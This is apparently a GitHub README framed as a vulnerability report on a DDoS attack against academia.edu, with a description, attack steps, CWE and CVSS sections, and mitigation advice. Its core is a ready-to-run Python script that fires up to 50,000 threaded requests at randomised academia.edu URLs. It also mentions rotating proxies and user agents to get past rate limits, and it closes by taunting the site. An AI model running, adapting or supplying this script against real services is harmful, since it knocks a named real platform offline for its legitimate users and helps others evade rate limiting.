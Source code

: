# Skooled
Ddos for Academie.edu

Title: DDoS by Resource Exhaustion Using Proxies and User Agents Bypassing Rate Limits

Description: This report describes a Distributed Denial of Service (DDoS) attack targeting academia.edu, where multiple requests are generated to exhaust server resources. The attack leverages randomized URL generation, multiple proxy addresses, and varying user-agent headers to bypass rate-limiting mechanisms. By generating high-volume requests in rapid succession, the attack attempts to exhaust server resources, resulting in a denial of service for legitimate users.


---

Vulnerability Details:

Attack Type: Distributed Denial of Service (DDoS) by Resource Exhaustion

Affected Platform: Academia.edu

Script Used: Python-based script (skooed.py) that generates random URLs, bypasses rate limits, and utilizes threading for high-volume concurrent requests.


Steps of the Attack:

1. Random URL Generation: The script randomly generates URLs using a combination of pre-defined base URLs and random 7-digit numerical strings, creating a large number of unique requests.


2. Threading for Concurrency: By using threading, the script launches multiple concurrent requests (up to 50,000 threads in this instance), resulting in a massive spike in request volume.


3. Resource Exhaustion: The rapid and massive influx of requests aims to overload the server resources (CPU, memory, bandwidth) and cause slowdowns or unavailability.


4. Rate Limit Bypass: The script can be modified with proxies and varying user agents to evade rate-limiting restrictions that would otherwise prevent excessive requests from the same IP.




---

CWE IDs:

CWE-400: Uncontrolled Resource Consumption - Excessive requests lead to resource exhaustion, impacting server availability.

CWE-770: Allocation of Resources Without Limits or Throttling - Lack of adequate rate limiting on academia.edu’s platform.

CWE-829: Inclusion of Functionality from Untrusted Control Sphere - Potential exploitation of unauthenticated resources due to improper rate limiting.



---

CVSS Score Calculation: Based on the characteristics of this DDoS attack, the CVSS (Common Vulnerability Scoring System) score would be calculated as follows:

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): None (N)

Integrity (I): None (N)

Availability (A): High (H) – Severe impact on availability due to resource exhaustion.


CVSS Score: 7.5 (High)

This score reflects the significant impact on availability and the low difficulty in executing this type of attack.


---

Mitigation Recommendations:

1. Rate Limiting and Throttling: Implement strict rate-limiting mechanisms based on IP addresses, user agents, and request patterns to detect and block excessive requests.


2. CAPTCHA Challenges: Enforce CAPTCHA or other challenge mechanisms for unusual access patterns to limit bot-based requests.


3. Web Application Firewall (WAF): Deploy a WAF to identify and block abnormal request patterns that indicate DDoS attempts.


4. Load Balancing and Autoscaling: Use load balancers to distribute traffic efficiently and enable autoscaling to handle sudden traffic spikes without exhausting resources.


5. Monitoring and Alerts: Continuous monitoring of server health and unusual traffic patterns can help detect early signs of resource exhaustion and trigger defensive actions.




---

PoC script:

```python
import requests
import threading
import random
import time

# List of base URLs to test
base_urls = [
    "https://www.academia.edu/10",
    "https://www.academia.edu/11"
]

# Function to generate a URL with a random 7-digit numerical string
def generate_random_url():
    base_url = random.choice(base_urls)  # Randomly select a base URL
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(7)])
    return f"{base_url}{random_digits}"

# Function to make a request to the generated URL
def make_request():
    url = generate_random_url()
    try:
        response = requests.get(url)
        print(f"Requested: {url} | Status Code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Request failed for {url}: {e}")

# Main function to create threads and run multiple requests concurrently
def run_concurrent_requests(num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=make_request)
        threads.append(thread)
        thread.start()
        time.sleep(0.1)  # slight delay to stagger requests

    for thread in threads:
        thread.join()

# Run the script with the desired number of threads
if __name__ == "__main__":
    num_threads = 50000  # Adjust the number of concurrent requests as needed
    run_concurrent_requests(num_threads)
```
All those Doctors on there and you didn't thunk too hire one to be able to stop me. 🤣🤣🤣

